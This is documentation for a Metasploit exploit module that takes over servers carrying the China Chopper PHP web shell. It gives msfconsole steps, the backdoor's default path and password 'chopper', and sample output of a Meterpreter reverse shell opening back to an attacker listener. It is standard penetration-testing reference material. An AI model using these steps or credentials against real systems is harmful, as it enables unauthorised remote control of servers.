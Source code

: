 ## Vulnerable Application

China Chopper Caidao PHP Backdoor or simply [Chinese Caidao](https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html) is a webshell manager coded in PHP.

Here is the [PHP code](https://github.com/rapid7/metasploit-framework/files/430643/caidao.zip) of the backdoor that you can use and save it as caidao.php.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/caidao_php_backdoor_exec`
  4. Do: `set rport port`
  5. Do: `set rhost ip`
  6. Do: `check`
```
[+] 192.168.1.103:80 - The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/caidao.php`, which is the common filename of the backdoor.
  
  **PASSWORD**
  
  PASSWORD by default is `chopper`, which is the password of the backdoor.

## Scenarios

```
msf exploit(caidao_php_backdoor_exec) > exploit

[*] Started reverse handler on 192.168.1.108:4444 
[*] Sending stage (33068 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.108:4444 -> 192.168.1.103:42349) at 2015-11-02 09:05:54 +0000

meterpreter > sysinfo 
Computer    : kali
OS          : Linux kali 3.14-kali1-686-pae #1 SMP Debian 3.14.5-1kali1 (2014-06-07) i686
Meterpreter : php/php
```
